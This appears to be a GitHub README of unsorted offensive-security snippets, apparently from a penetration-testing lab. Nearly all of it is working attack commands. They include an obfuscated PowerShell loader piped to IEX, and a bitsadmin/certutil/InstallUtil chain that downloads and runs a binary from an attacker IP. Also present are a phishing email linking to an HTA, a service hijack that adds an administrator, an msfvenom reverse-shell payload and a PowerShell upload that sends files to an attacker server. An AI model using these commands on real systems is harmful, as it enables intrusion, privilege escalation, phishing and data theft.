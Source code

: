 # Snippets

Unsorted code snippets that dont really have a home elsewhere


Gzip and Base64 encode Powershell strings and script and execute
- https://www.zickty.com/texttogzip
- https://gchq.github.io/CyberChef/#recipe=Gzip('Dynamic%20Huffman%20Coding','','',false)To_Base64('A-Za-z0-9%2B/%3D')&input=d2hvYW1pIC9hbGw&oeol=FF

```powershell
$b = 'H4sIAAAAAAAAAyvPyE/MzQQAAirKwAYAAAA='
$g = [System.Convert]::FromBase64String($b)
$m = New-Object System.IO.MemoryStream(, $g)
$d = New-Object System.IO.MemoryStream
$z = New-Object System.IO.Compression.GZipStream($m, [IO.Compression.CompressionMode]::Decompress)
$z.CopyTo($d)
$d.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
$r = New-Object System.IO.StreamReader($d)
$s = $r.ReadToEnd()
$s | IEX
```

LOLBINS, Download and execute into InstallUtil

```
# Encode binary / file with certutil.exe
certutil -encode C:\Users\Hacker\Source\Repos\IgnoreCLM\IgnoreCLM\bin\x64\Release\IgnoreCLM.exe Data.txt

# Downloads with bitsadmin, decode with certutil back into a binary and execute with InstallUtils.
bitsadmin /Transfer myJob http://192.168.45.216/Data.txt C:\users\student\Data.txt && timeout /t 1 /nobreak >nul && certutil -decode C:\users\student\Data.txt C:\users\student\Data.exe && timeout /t 1 /nobreak >nul && del C:\users\student\Data.txt && timeout /t 1 /nobreak >nul && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U "C:\users\student\Data.exe"
```
Send email to target 
``` bash
# swaks
swaks --body 'Free Loot --> http://192.168.45.170/PHP/test.hta' --add-header "Want sum loot?" --add-header "Content-Type: text/html" --header "Subject: Free loot" -t user@domain.com -f Shell@security.local --server 192.168.226.159

# sendmail
sendemail -t user@domain.com  -f Shell@security.local -s 192.168.226.159 -m "This is the main email body" -u "This is the subject line" -a /home/kali/Doc1.doc
```
Configure service to run a custom command. Explicity setting to run under SYSTEM
```
sc.exe config SNMPTRAP binpath= "net localgroup Administrators domain.local\user /add" obj= "LocalSystem"
```
use nc to scan all local ports
```
for port in {1..65535}; do nc -zv 127.0.0.1 $port 2>&1 | grep succeeded; done
```
auto migrate with metasploit
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.154 LPORT=8080 -f csharp prependmigrateproc=explorer.exe prependmigrate=true
```
POST files to web server such as HFS.
```powershell
$f= "C:\pentest\ADenum_Report.html" ; $u= "http://192.168.45.194/Uploads/" ; $w= New-Object System.Net.WebClient ; $r= $w.UploadFile($u, "POST", $f)
```
